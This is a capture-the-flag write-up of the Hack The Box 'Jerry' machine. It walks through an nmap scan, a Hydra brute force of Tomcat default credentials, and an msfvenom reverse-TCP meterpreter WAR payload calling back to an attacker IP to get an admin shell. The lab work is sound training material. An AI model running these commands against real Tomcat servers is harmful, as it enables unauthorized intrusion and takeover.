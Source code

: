 # Jerry Writeup

This is a short writeup of HTB Jerry, an easy Windows box

## Port scanning

We start by scanning open ports on the box with nmap to see what we're dealing with. Running a TCP scan for all ports alongwith service/version detection, we get the following results:

```console
kali@kali:~/Desktop/htb/jerry$ nmap -sT -sV 10.10.10.95 -A -p0-65535
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 04:19 EDT
Nmap scan report for 10.10.10.95
Host is up (0.039s latency).
Not shown: 65535 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

Note: Usually I like to run a UDP scan in the background just to cover all bases. Since it is very time consuming, it makes sense to initiate the scan and proceed with further enumeration in the meantime. In this case, the UDP scan yielded no results.

From the nmap scan above, we can draw the following conclusions:

- Port 8080 open
- Runs Apache Tomcat/Coyote JSP engine 1.1
- Version: Apache Tomcat 7.0.88
- No UDP ports open
- OS: Windows (HTB gives us this information)

## Service enumeration

We're dealing with only 1 port i.e. 8080 which is supposedly running a web server. Visiting the webpage on a browser, we see the following:

![webpage-1](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-1.png)

On the homepage we can see "manager app" which could possibly lead us to the admin console. Clicking on that button we see that it requires us to enter a username and password:

![webpage-2](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-2.png)

Trying out random creds such as ```admin:admin``` lands us a 403 and we see the following:

![webpage-3](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-3.png)

On the 403 page, we see that for this version of Tomcat (7.0.88), the default admin credentials are ```admin:s3cret```. Trying this out on the admin login, we get access to the admin console:

![webpage-5](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-5.png)

The credentials worked and this is our most lucrative option. We can see that there is an option to deploy war files and execute them. WAR (Web Application Archive) files are basically files used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

Let's take a step back here and assume that we hadn't seen the default credentials on the 403. Having a quick look at how the login actually works. We fire up BurpSuite and turn intercept on to examine the traffic. Let's use the credentials ```blah:blah``` to see how it works:

![burp-1](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/burp-1.png)

Looking at the requests we see that it uses Basic Auth which just base64 encodes the username and password and forwards it.

![burp-2](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/burp-2.png)

We can decode the base64 string in BurpSuite as follows:

![burp-3](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/burp-3.png)

We can use [Hydra](https://github.com/vanhauser-thc/thc-hydra) to bruteforce the login. There are various wordlists that we can employ. A popular repository of wordlists is [SecLists](https://github.com/danielmiessler/SecLists) which contains various wordlists, one of which is default Tomcat passwords as shown below:

![hydra-1](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/hydra-1.png)

We can now initiate the Hydra bruteforce as follows:

```console
kali@kali:~/Desktop/htb/jerry$ hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-03 04:34:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-03 04:34:22
```

Concluding the service enumeration, its safe to assume that we have a very lucrative exploitation path with the admin console at our disposal. We can prioritize our exploitation paths as follows:

1. Admin console exploitation
2. Server software vulnerability assessment
3. SSH bruteforce

## Exploitation

Before we get into actual exploitation, we can do some more enumeration on the admin console now that we have access to it. This is done to understand the nature of the machine so we gain more information on how to proceed with our exploit. Exploring the admin console, we discover the following:

![webpage-6](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-6.png)

We now have the following:

- JVM Version: 1.8.0_171-b11
- JVM Vendor: Oracle Corporation
- OS Name: Windows Server 2012 R2
- OS Version: 6.3
- OS Architecture: amd64

Now that we have a decent amount of information about the machine, we can proceed to exploitation. As seen earlier, the admin has an option to upload files and execute them. The type of file as mentioned earlier is a WAR file. We can try to upload a crafted WAR payload that will spawn a shell on the machine. To do so we can use metasploit's msfvenom. First, we need to see if the WAR format is supported by msfvenom:

```console
kali@kali:~/Desktop/htb/jerry$ msfvenom --help-formats

Executable formats
asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war

Transform formats
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

**NOTE:** Executable formats will place the payload into a complete valid executable file, along with all the headers, footers, information blocks, checksums, heap options, loading instructions etc that goes along with it. Transform formats will output code suitable for copying into a script of some description, covering a wide range of scripting and higher level languages as well as some generic options as well.

Now that we know that WAR is supported, we can build our payload. We already know that we are dealing with an x64 Windows system. So we can select the x64 Windows meterpreter. We set the listening IP and port and set the file type as WAR with -f.

```console
kali@kali:~/Desktop/htb/jerry$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=4444  -f war -o evil.war

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of war file: 2460 bytes
Saved as: evil.war
```

As mentioned previously, WAR files are archives. We can unzip the file we generated to have a look inside:

```console
kali@kali:~/Desktop/htb/jerry$ unzip evil.war
Archive:  evil.war
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF
   creating: WEB-INF/
  inflating: WEB-INF/web.xml
  inflating: qswppjdamzduqkn.jsp
```

The file named qswppjdamzduqkn.jsp is most likely the one that contains our actual payload. We can now upload the WAR file to the admin console:

![webpage-7](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-7.png)

After uploading the WAR file we can now see it on the admin console as an application (/evil) that can be executed:

![webpage-8](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-8.png)

We can click on the ```/evil``` application to see if it gets executed. However, on navigating to ```/evil```, we get a 404:

![webpage-9](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-9.png)

This is probably because the WAR file, as we saw earlier, is an archive. We should point it to the actual jsp file instead that contains the payload. In order to do so, we can navigate to ```http://10.10.10.95:8080/evil/qswppjdamzduqkn.jsp``` instead. This time, it shows that the payload is being executed

![webpage-10](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-10.png)

Now we need to start a listener to catch the shell from the machine. In order to do so, we can use the Metasploit multi handler. We set the payload to ```windows/x64/meterpreter/reverse_tcp``` and set the listening IP and Port as shown:

![msf-2](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/msf-2.png)

After running the listener and then refreshing the ```http://10.10.10.95:8080/evil/qswppjdamzduqkn.jsp``` page, we get a shell on the listener:

![msf-3](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/msf-3.png)

Spawning a shell in the meterpreter, we see that we directly have admin access since Tomcat was running on the machine with root permissions.

![msf-4](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/msf-4.png)
